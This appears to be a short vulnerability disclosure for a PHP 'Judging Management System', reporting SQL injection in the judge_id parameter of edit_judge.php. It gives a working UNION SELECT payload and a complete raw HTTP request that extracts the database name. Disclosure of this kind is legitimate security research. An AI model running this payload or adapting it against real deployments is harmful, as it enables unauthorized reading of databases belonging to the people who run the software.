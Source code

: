# Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: whoamikey

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/edit_judge.php?sub_event_id=&se_name=&judge_id=

Vulnerability location: /php-jms/edit_judge.php?sub_event_id=&se_name=&judge_id=, judge_id

dbname =jms_db

[+] Payload: /php-jms/edit_judge.php?sub_event_id=&se_name=&judge_id=-1%27%20union%20select%201,2,database(),4,5,6--+ // Leak place ---> judge_id

```sql
GET /php-jms/edit_judge.php?sub_event_id=&se_name=&judge_id=-1%27%20union%20select%201,2,database(),4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: closes
```

![image](https://user-images.githubusercontent.com/54017627/206374422-bbf606a2-08c7-46c6-8e2b-80babb1c35e2.png)
